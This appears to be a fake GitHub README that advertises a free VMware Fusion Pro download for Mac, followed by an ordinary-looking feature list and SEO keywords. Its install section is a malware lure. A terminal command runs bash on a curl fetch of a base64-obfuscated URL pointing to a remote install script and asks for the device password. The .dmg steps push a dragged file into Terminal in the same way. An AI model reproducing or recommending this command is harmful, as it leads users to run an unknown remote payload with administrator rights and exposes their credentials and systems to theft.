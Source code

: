 # VMware Fusion Pro Mac Download

![VMware Fusion Pro Screenshot](https://it.lbl.gov/wp-content/uploads/sites/18/2023/01/vmware-fusion-13-pro.jpg)

[![Download Now](https://img.shields.io/badge/Download--Now-VMware%20Fusion%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/wmwarefusionpromac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
 ```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is VMware Fusion Pro?

**VMware Fusion Pro** is an advanced virtualization platform for **macOS** that lets you run Windows, Linux, and other operating systems directly on your Mac—without rebooting. It’s the go-to solution for developers, IT professionals, QA engineers, and power users who need to create, test, and manage multiple operating systems simultaneously.

With support for **macOS Ventura**, **Apple Silicon (M1/M2/M3)**, and **Intel-based Macs**, Fusion Pro offers unmatched compatibility and flexibility. Whether you're running legacy Windows software, Linux development environments, or testing across platforms, **Fusion Pro** makes it easy and efficient.

VMware Fusion Pro provides features such as virtual network simulation, powerful snapshot management, integration with vSphere and ESXi, and full support for container-based workflows. With drag-and-drop functionality between macOS and guest OSes, shared folders, and Retina display support, Fusion Pro bridges the gap between platforms without sacrificing performance or usability.

Whether you're running a virtual lab, doing cross-platform development, or need isolated testing environments, **VMware Fusion Pro** delivers enterprise-grade tools in a Mac-native experience.

![VMware Fusion Pro Screenshot](https://macmagazine.com.br/wp-content/uploads/2023/07/15-vmware-fusion-tech-preview.png)

---

## 🌟 Key Features & Benefits

- 🪟 **Run Windows on Mac** — Launch Windows 10, 11, or legacy versions without restarting your Mac.
- 🐧 **Linux & Custom OS Support** — Run Ubuntu, Debian, Kali Linux, and custom distributions.
- 🧩 **Snapshots & Clones** — Save states, roll back, or duplicate virtual machines easily.
- 🌐 **Virtual Networking** — Create custom virtual networks with NAT, bridged, and host-only modes.
- 🖱️ **macOS Integration** — Drag-and-drop files, copy-paste text, share folders between systems.
- ⚡ **Hardware-Accelerated Graphics** — Up to DirectX 11 and OpenGL 4.3 support in VMs.
- ☁️ **vSphere & ESXi Integration** — Manage VMware infrastructure directly from your Mac.
- 🔒 **Encrypted VMs** — Secure your virtual machines with industry-standard encryption.
- 🖥️ **High-Resolution Display Support** — Retina and 5K display optimization.
- 💻 **Apple Silicon Support** — Support for ARM-based virtual machines on M1/M2/M3 Macs.

---

## 🖥️ System Requirements

- **macOS**: 12.0 Monterey or later  
- **Processor**: Intel or Apple Silicon (M1, M2, M3)  
- **RAM**: 8 GB minimum (16 GB recommended)  
- **Disk Space**: At least 10 GB per virtual machine  
- **License**: Free trial available, paid license for Fusion Pro features

---

## 🏷️ Keywords

vmware fusion pro, vmware fusion 12 download, fusion pro download, vmware fusion pro download, vm fusion pro
